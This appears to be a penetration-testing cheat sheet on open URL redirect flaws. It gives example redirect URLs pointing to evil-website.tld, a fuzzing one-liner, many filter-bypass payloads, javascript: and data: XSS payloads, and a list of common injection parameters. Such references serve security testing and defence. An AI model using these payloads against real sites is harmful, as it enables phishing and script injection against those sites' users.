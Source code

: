 # Open URL Redirection

> Unvalidated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials. Because the server name in the modified link is identical to the original site, phishing attempts may have a more trustworthy appearance. Unvalidated redirect and forward attacks can also be used to maliciously craft a URL that would pass the application’s access control check and then forward the attacker to privileged functions that they would normally not be able to access.

## Summary

- [Exploitation](#exploitation)
- [HTTP Redirection Status Code - 3xx](#http-redirection-status-code---3xx)
- [Fuzzing](#fuzzing)
- [Filter Bypass](#filter-bypass)
- [Common injection parameters](#common-injection-parameters)
- [References](#references)

## Exploitation

Let’s say there’s a `well known` website - https://famous-website.tld/. And let's assume that there's a link like :

```powershell
https://famous-website.tld/signup?redirectUrl=https://famous-website.tld/account
```
After signing up you get redirected to your account, this redirection is specified by the `redirectUrl` parameter in the URL.   
What happens if we change the `famous-website.tld/account` to `evil-website.tld`?

```powershell
https://famous-website.tld/signup?redirectUrl=https://evil-website.tld/account
```

By visiting this url, if we get redirected to `evil-website.tld` after the signup, we have an Open Redirect vulnerability. This can be abused by an attacker to display a phishing page asking you to enter your credentials.


## HTTP Redirection Status Code - 3xx

- [300 Multiple Choices](https://httpstatuses.com/300)
- [301 Moved Permanently](https://httpstatuses.com/301)
- [302 Found](https://httpstatuses.com/302)
- [303 See Other](https://httpstatuses.com/303)
- [304 Not Modified](https://httpstatuses.com/304)
- [305 Use Proxy](https://httpstatuses.com/305)
- [307 Temporary Redirect](https://httpstatuses.com/307)
- [308 Permanent Redirect](https://httpstatuses.com/308)

## Fuzzing

Replace www.whitelisteddomain.tld from *Open-Redirect-payloads.txt* with a specific white listed domain in your test case

To do this simply modify the WHITELISTEDDOMAIN with value www.test.com to your test case URL.

```powershell
WHITELISTEDDOMAIN="www.test.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```

## Filter Bypass

Using a whitelisted domain or keyword

```powershell
www.whitelisted.com.evil.com redirect to evil.com
```

Using CRLF to bypass "javascript" blacklisted keyword

```powershell
java%0d%0ascript%0d%0a:alert(0)
```

Using "//" to bypass "http" blacklisted keyword

```powershell
//google.com
```

Using "https:" to bypass "//" blacklisted keyword

```powershell
https:google.com
```

Using "\/\/" to bypass "//" blacklisted keyword (Browsers see \/\/ as //)

```powershell
\/\/google.com/
/\/google.com/
```

Using "%E3%80%82" to bypass "." blacklisted character

```powershell
/?redir=google。com
//google%E3%80%82com
```

Using null byte "%00" to bypass blacklist filter

```powershell
//google%00.com
```

Using parameter pollution

```powershell
?next=whitelisted.com&next=google.com
```

Using "@" character, browser will redirect to anything after the "@"

```powershell
http://www.theirsite.com@yoursite.com/
```

Creating folder as their domain

```powershell
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

Host/Split Unicode Normalization
```powershell
https://evil.c℀.example.com . ---> https://evil.ca/c.example.com
http://a.com／X.b.com
```

XSS from Open URL - If it's in a JS variable

```powershell
";alert(0);//
```

XSS from data:// wrapper

```powershell
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

XSS from javascript:// wrapper

```powershell
http://www.example.com/redirect.php?url=javascript:prompt(1)
```

## Common injection parameters

```powershell
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```

## References

* filedescriptor
* [You do not need to run 80 reconnaissance tools to get access to user accounts - @stefanocoding](https://gist.github.com/stefanocoding/8cdc8acf5253725992432dedb1c9c781)
* [OWASP - Unvalidated Redirects and Forwards Cheat Sheet](https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet)
* [Cujanovic - Open-Redirect-Payloads](https://github.com/cujanovic/Open-Redirect-Payloads)
* [Pentester Land - Open Redirect Cheat Sheet](https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html)
* [Open Redirect Vulnerability - AUGUST 15, 2018 - s0cket7](https://s0cket7.com/open-redirect-vulnerability/)
* [Host/Split
Exploitable Antipatterns in Unicode Normalization - BlackHat US 2019](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)
